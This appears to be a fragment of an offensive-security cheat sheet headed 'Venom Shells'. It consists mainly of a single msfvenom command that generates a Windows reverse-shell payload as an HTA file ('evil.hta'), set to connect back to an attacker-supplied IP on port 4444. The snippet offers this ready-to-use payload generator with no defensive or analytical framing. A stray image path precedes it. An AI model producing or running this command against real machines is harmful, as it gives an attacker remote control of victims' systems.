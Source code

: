 ###### Venom Shells

hta, VBS, B64 encoded reverse shell
``` msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f hta-psh evil.hta ```



